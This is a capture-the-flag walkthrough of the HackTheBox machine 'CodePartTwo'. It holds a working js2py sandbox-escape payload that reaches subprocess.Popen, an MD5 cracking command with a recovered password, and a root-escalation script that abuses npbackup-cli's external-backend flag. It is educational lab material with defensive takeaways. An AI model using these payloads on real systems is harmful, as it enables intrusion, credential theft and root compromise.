

# CodePartTwo — HackTheBox

| Field      | Value              |
|------------|--------------------|
| Platform   | HackTheBox         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | js2py sandbox escape, SQLite credential dump, sudo binary abuse |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```

| Port     | State | Service | Version                          |
|----------|-------|---------|----------------------------------|
| 22/tcp   | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 8000/tcp | open  | http    | gunicorn/20.0                    |

Two ports: SSH and a Python web server running on 8000 via Gunicorn (a production-grade WSGI server). The presence of Gunicorn tells us the backend is a Python web application. Port 8000 is non-standard — this is a custom-hosted app rather than a default web server install.

---

## 2. Web Application Enumeration

Navigating to `http://<IP>:8000` revealed a web application with registration and login functionality. After creating an account and logging in, the dashboard presented a JavaScript code editor.



The editor executed JavaScript and returned the result. The key detail: it used the `js2py` library to translate and run JavaScript as Python under the hood. This is a significant finding — `js2py` was not designed as a security sandbox. It was built for compatibility, not isolation.

---

## 3. Foothold — js2py Sandbox Escape

`js2py` translates JavaScript objects into Python objects internally. The vulnerability lies in how it exposes Python's introspection mechanisms: JavaScript's `Object.getOwnPropertyNames()` can be used to access Python's `__getattribute__` — and from there, we can climb the entire Python object hierarchy.

The technique is called a **sandbox escape via reflection**:

1. Use `Object.getOwnPropertyNames({})` on an empty object to get the underlying Python object's attributes
2. Access `__class__` → `__base__` → `__subclasses__()` to enumerate every class loaded in the Python runtime
3. Find `subprocess.Popen` in that list (index `317` on this machine — it varies per environment)
4. Call `Popen` to execute arbitrary system commands

```javascript
var result = (function(){
    try {
        // Step 1: Break the cage — introspection
        var hacked = Object.getOwnPropertyNames({});
        var getattr = hacked.__getattribute__;

        // Step 2: Climb the Python object hierarchy
        var obj_class = getattr("__class__");
        var base = obj_class.__base__;
        var subclasses = base.__subclasses__(); // All loaded classes in the runtime

        // Step 3: Find subprocess.Popen (index 317 on this machine)
        var Popen = subclasses[317];

        // Step 4: Execute a command and capture output
        var cmd = ['cat', '/home/app/user.txt'];
        var proc = Popen(cmd, -1, null, null, -1);

        // Step 5: Decode bytes output to string
        var output = proc.communicate()[0].decode('utf-8');
        return output;

    } catch(e) { return "Error: " + e; }
})();
result;
```

This reads `user.txt` directly. To get an interactive shell, modify the `cmd` array to a bash reverse shell payload and change the PIPE flags accordingly.

> **Note on the index:** The `subclasses[317]` index is not universal — it depends on which Python packages are imported at runtime. If the payload fails, iterate over `subclasses` to find the one whose `__name__` matches `'Popen'`.

---

## 4. Privilege Escalation

### Step 1 — Discover credentials in SQLite database

With a reverse shell as user `app`, enumerate the home directory:

```bash
ls /home/app/
```

A `users.db` file was present — a SQLite database. SQLite databases are single-file and can be queried directly with the `sqlite3` CLI:

```bash
sqlite3 /home/app/users.db
.tables
SELECT * FROM users;
```

The query returned usernames and password hashes. The hash format — 32 hex characters — is MD5. Cracked offline with hashcat:

```bash
hashcat -m 0 <hash> /usr/share/wordlists/rockyou.txt
```

Result: `marco` : `sweetangelbabylove`

Switched to the `marco` user:

```bash
su marco
```

### Step 2 — Enumerate sudo permissions

The first thing to check after gaining a new user account is `sudo -l` — it lists what commands the user can run with elevated privileges without needing the root password.

```bash
sudo -l
```

Output showed:

```
(root) NOPASSWD: /usr/local/bin/npbackup-cli
```

`marco` can run `/usr/local/bin/npbackup-cli` as root without a password. This is a backup utility binary.

### Step 3 — Exploit npbackup-cli external backend flag

`npbackup-cli` accepts an `--external-backend-binary` flag that specifies an external script to call as part of the backup process. Since we run it as root, any binary specified here executes as root.

Created a malicious script that copies the root flag to a world-readable location:

```bash
echo '#!/bin/bash' > /home/marco/rootme.sh
echo 'cp /root/root.txt /tmp/flag_final.txt' >> /home/marco/rootme.sh
echo 'chmod 777 /tmp/flag_final.txt' >> /home/marco/rootme.sh
echo 'echo "version 1.0"' >> /home/marco/rootme.sh  # Satisfies version check
chmod +x /home/marco/rootme.sh
```

Triggered execution via sudo:

```bash
sudo /usr/local/bin/npbackup-cli \
  --external-backend-binary=/home/marco/rootme.sh \
  -c /home/marco/npbackup.conf \
  --ls
```

The `--ls` action triggers the external backend call. The script runs as root, copies `root.txt` to `/tmp/flag_final.txt` with world-readable permissions:

```bash
cat /tmp/flag_final.txt
```

---

## 5. Key Takeaways

**`js2py` is not a sandbox.** It was built for compatibility between JS and Python, not to isolate untrusted code. Any application exposing js2py to user input is vulnerable to full Python runtime access via reflection.

**Always enumerate files in the web app's working directory.** Database files, config files, and log files left in application directories are common sources of credentials. `users.db` in the app home directory is a classic oversight.

**`sudo -l` first, always.** It's the fastest path to privilege escalation and should be one of the first commands run after gaining any new shell.

**`--external-backend-binary` and similar flags in privileged binaries are immediate escalation vectors.** When a program accepts a path to an external script and runs it with elevated privileges, you control the execution. This pattern appears in backup tools, deployment scripts, and monitoring agents. Always check the help output of any sudo-allowed binary.
